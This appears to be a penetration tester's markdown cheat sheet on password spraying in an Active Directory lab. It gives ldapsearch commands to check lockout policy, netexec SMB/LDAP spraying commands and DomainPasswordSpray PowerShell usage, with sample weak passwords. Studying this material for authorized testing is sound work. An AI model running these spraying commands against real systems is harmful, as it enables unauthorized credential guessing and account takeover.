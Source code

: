 # Password Spraying
NOTE: Always check or confirm lockout threshold before spraying
```
ldapsearch -D 'MARVEL\support' -w 'redacted' -p 389 -h 10.10.10.192 -b "dc=marvel,dc=local" -s sub "*" | grep lockoutThreshold
```
```
nxc smb 10.0.2.15 -d marvel.local -u fcastle -p Password1 --pass-pol
```
## netexec
- [nxc Password Spraying documentation](https://www.netexec.wiki/smb-protocol/password-spraying)
- NOTE: By default nxc will exit after a successful login is found. Using the --continue-on-success flag, it will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list. This is incompatible with command execution.
1. Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Multiple usernames (space delimeter):
```
nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18 --continue-on-success
```
Multiple passwords (space delimeter):
```
nxc smb 192.168.1.101 -u user1 -p password1 password2 password3 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Input files:
```
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18
```
```
nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```
```
nxc smb 192.168.1.101 -u user.txt -p password.txt
```
## DomainPasswordSpray
- [DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
- PowerShell tool
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2025.
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```

